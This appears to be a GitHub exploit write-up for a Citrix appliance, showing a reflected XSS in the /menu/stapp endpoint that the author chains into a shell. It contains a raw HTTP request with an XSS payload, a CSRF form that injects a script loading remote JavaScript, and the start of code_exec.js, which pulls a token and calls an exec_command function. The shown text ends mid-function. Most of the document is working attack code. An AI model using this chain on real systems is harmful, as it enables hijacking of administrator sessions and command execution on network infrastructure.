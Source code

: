 ```http
POST /menu/stapp HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
X-NITRO-USER: henk

sid=254&pe=1,2,3,4,5&appname=%0a</title><script>alert('xss')</script>&au=1&username=nsroot
```

It's really not that special, but went ahead and made an XSS to shell PoC just for funsies. Only works if you get an admin to click obviously.

<a href="http://www.youtube.com/watch?feature=player_embedded&v=1_D4_9BKHSc" target="_blank"><img src="http://img.youtube.com/vi/1_D4_9BKHSc/0.jpg" width="240" height="180" border="10" /></a>

And here is the code if you feel really bored:

`csrf.html`
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://citrix.local/menu/stapp" method="POST">
      <input type="hidden" name="sid" value="254" />
      <input type="hidden" name="pe" value="1,2,3,4,5" />
      <input type="hidden" name="appname" value="%0a</title><script src='http://localhost:9090/code_exec.js'></script>" />
      <input type="hidden" name="au" value="1" />
      <input type="hidden" name="username" value="nsroot" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

`code_exec.js`
```js
function load(url, callback) {
  var xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
      rand = callback(xhr.response);
      exec_command(rand);
    }
  }

  xhr.open('GET', url, true);
  xhr.send('');
}

function get_rand(payload) {
	var lines = payload.split("\n");
	for(var i = 0; i < lines.length; i++) {
	    if (lines[i].includes('var rand = "')) {
	    	var rand = lines[i].split('"')[1]
	    	return rand;
	    }
```